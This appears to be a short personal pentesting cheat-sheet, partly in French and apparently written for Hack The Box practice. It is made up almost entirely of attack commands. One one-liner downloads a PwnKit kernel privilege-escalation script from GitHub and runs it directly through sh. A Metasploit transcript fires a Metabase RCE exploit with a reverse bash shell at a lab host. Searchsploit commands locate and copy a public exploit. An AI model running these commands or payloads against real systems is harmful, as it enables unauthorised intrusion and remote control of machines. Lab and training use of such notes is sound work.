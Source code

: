 
## Post exploitation

### Kernel LPE

```bash
uname -a #rechercher par exploit kernel
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

### Metasploit payload ex

- https://www.exploit-db.com/


```bash
msf6 > use exploit/linux/http/metabase_setup_token_rc
[*] Using configured payload cmd/unix/reverse_bash

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/http/metabase_setup_token_rce  2023-07-22       excellent  Yes    Metabase Setup Token RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/metabase_setup_token_rce

[*] Using exploit/linux/http/metabase_setup_token_rce
msf6 exploit(linux/http/metabase_setup_token_rce) > set rhosts data.analytical.htb
rhosts => data.analytical.htb
msf6 exploit(linux/http/metabase_setup_token_rce) > set rport 80
rport => 80
msf6 exploit(linux/http/metabase_setup_token_rce) > set lhost tun0
lhost => tun0
msf6 exploit(linux/http/metabase_setup_token_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.214:4444 
```

### Searchsploit

```bash
searchsploit request-baskets #PATH: python/webapps/51675.sh
searchsploit -x 51675 #examine le code source de l'exploit
searchsploit -m 51675 #copie l'exploit dans le PATH courant 
```

### Metasploit
